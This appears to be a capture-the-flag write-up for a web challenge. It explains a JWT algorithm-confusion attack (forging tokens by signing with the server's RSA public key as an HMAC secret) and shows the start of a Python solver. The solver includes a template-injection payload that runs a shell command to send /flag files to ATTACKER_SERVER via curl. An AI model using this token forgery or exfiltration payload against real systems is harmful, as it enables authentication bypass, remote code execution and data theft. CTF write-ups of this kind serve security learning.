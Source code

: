 ```javascript
            return reject(new Error("Invalid token format"));
        }

        jwt.decode(publicKey, token, (err, payload, header) => {
            if (err) {
                return reject(new Error("Invalid or expired token"));
            }

            if (header.alg.toLowerCase() === "none") {
                return reject(new Error("Algorithm 'none' is not allowed"));
            }

            resolve(payload);
        });
    });
}
``` 

When working with JWT tokens, we can exploit algorithm confusion by:

1. The server expects RS256 (asymmetric) algorithm
2. We can modify the token's algorithm header from RS256 to HS256 (symmetric)
3. Since HS256 uses the same key for signing and verification:
   - We take the public key that's meant for RS256
   - Use it as the HMAC secret key to sign with HS256
4. When server verifies:
   - It sees HS256 algorithm
   - Uses its public key as HMAC secret
   - The signature matches because we used the same public key

This works because the server doesn't properly validate the algorithm type, allowing us to force it to use the public key as an HMAC secret.

This is a common JWT security vulnerability when algorithm type checking isn't properly implemented.

this is the solver 

```python
import httpx
import subprocess
from base64 import urlsafe_b64decode
from Crypto.PublicKey import RSA

BASE_URL = 'https://catclub-0.ctf.intigriti.io'
REGISTER_URL = f'{BASE_URL}/register'
LOGIN_URL = f'{BASE_URL}/login'
JWK_URL = f'{BASE_URL}/jwks.json'
CAT_URL = f'{BASE_URL}/cats'
JWT_TOOL_PATH = f'./jwt_tool'

SSTI_PAYLOAD = "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('curl https://ATTACKER_SERVER/?flag=$(cat /flag* | base64)')}()}"

def base64url_decode(data):
    return urlsafe_b64decode(data + b'=' * (-len(data) % 4))

def register_user(username, password):
    response = httpx.post(REGISTER_URL, data={"username": username, "password": password})
    return response.status_code == 200

def login_user(username, password):
    client = httpx.Client()
    response = client.post(LOGIN_URL, data={"username": username, "password": password})
    if response.status_code == 303:
        response = client.get(BASE_URL)
```